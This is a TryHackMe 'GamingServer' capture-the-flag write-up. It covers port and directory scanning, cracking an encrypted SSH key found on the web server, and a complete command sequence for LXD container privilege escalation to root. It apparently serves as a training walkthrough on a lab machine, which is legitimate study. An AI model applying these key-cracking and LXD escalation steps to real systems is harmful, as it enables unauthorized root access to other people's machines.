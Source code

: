 # GamingServerWriteup

Try Hack Me Writeup — GamingServer

Hello Guys , I am Vishal Kumar. My username on THM is “vishack56”.

STEP 1:

Port Scan: Running NMAP full port scan on it , we get

root@vish:~/TryHackMe# nmap -sC -sV -p- -T4 10.10.246.20
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-31 16:33 IST
Nmap scan report for 10.10.246.20
Host is up (0.20s latency).
Not shown: 65531 closed ports
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp    open     http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
29926/tcp filtered unknown
50976/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1044.51 seconds

Visiting the 80 port on browser we see a "House of Danak" page. There is something interesting in its source code which is :
"john, please add some actual content to the site! lorem ipsum is horrible to look at."

john must be the username.

STEP 2:

Running gobuster:

root@vish:~/TryHackMe# gobuster dir -u http://10.10.246.20/ --wordlist /home/security/SecLists/Discovery/Web-Content/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.246.20/
[+] Threads:        10
[+] Wordlist:       /home/security/SecLists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/08/31 16:54:17 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/<<hidden-text>> (Status: 200)
/<<hidden-text>> (Status: 301)
/<<hidden-text>> (Status: 403)
/<<hidden-text>> (Status: 301)
===============================================================
2020/08/31 16:56:08 Finished
===============================================================
  
 ----------------------------------------------------------------- Screenshot 1 -------------------------------------------------------
 
 
 STEP 3:
 
 Visiting the hidden directoory, we get dict.lst file which I assume is some sort of wordlist.
 
 ------------------------------------------------------------------Screenshot 2----------------------------------------------------------
 
 and another hidden directory contains encrypted SSH key:
 
 -------------------------------------------------------------------Screenshot 3---------------------------------------------------------
 
 STEP 4:
 
 Since the RSA key is encrypted we’ll use ssh2john and john to crack the hash. I saved the hash as id_rsa.
 
root@vish:~/TryHackMe/GamingServer# nano id_rsa
root@vish:~/TryHackMe/GamingServer# /usr/share/john/ssh2john.py id_rsa > id_rsa_hash
root@vish:~/TryHackMe/GamingServer# john --wordlist=dict.lst id_rsa_hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
<<hidden-password>>          (id_rsa)
1g 0:00:00:00 DONE (2020-08-31 17:04) 4.000g/s 888.0p/s 888.0c/s 888.0C/s 2003..starwars
Session completed
  
--------------------------------------------------------------------Screenshot 4-----------------------------------------------------------

STEP 5:

SSH Login :

root@vish:~/TryHackMe/GamingServer# chmod 600 id_rsa
root@vish:~/TryHackMe/GamingServer# ssh -i id_rsa john@10.10.246.20
load pubkey "id_rsa": invalid format
The authenticity of host '10.10.246.20 (10.10.246.20)' can't be established.
ECDSA key fingerprint is SHA256:LO5bYqjXqLnB39jxUzFMiOaZ1YnyFGGXUmf1edL6R9o.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.246.20' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Aug 31 11:49:55 UTC 2020

  System load:  0.0               Processes:           97
  Usage of /:   41.1% of 9.78GB   Users logged in:     0
  Memory usage: 32%               IP address for eth0: 10.10.246.20
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.


Last login: Mon Jul 27 20:17:26 2020 from 10.8.5.10

john@exploitable:~$ cat user.txt
<<hidden-user-flag>>
  
  
  ---------------------------------------------------------Screenshot 5--------------------------------------------------------------

STEP 6:

Privilege Escalation
  
john@exploitable:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)

-------------------------------------------------------------Screenshot 6 --------------------------------------------------------------

LXD seems interesting, after enumerating this I got a technique to escalate provilege from https://www.hackingarticles.in/lxd-privilege-escalation/

Following the steps of this article and the machine is rooted.

In Local machine:
First Download the "build alpine" from : https://github.com/saghul/lxd-alpine-builder.git
Go to the lxd-alpine-builder directory and run "build-alpine" by ./build-alpine
On running the above command, a tar.gz file is created.
Transfer that file in the host machine into /tmp

and run the following commands one by one:

- lxc image import ./alpine-v3.12-x86_64-20200831_1326.tar.gz --alias myimage
- lxc image list
- lxc init myimage ignite -c security.privileged=true
- lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
- lxc start ignite
- lxc exec ignite /bin/sh

john@exploitable:/tmp$ lxc exec ignite /bin/sh
~ # id
uid=0(root) gid=0(root)

-------------------------------------------------------------------Screenshot 7---------------------------------------------------------------------


/mnt/root/root # cat root.txt
<<hidden-root-flag>>
/mnt/root/root #
  
  Thanks for reading this.





 
 
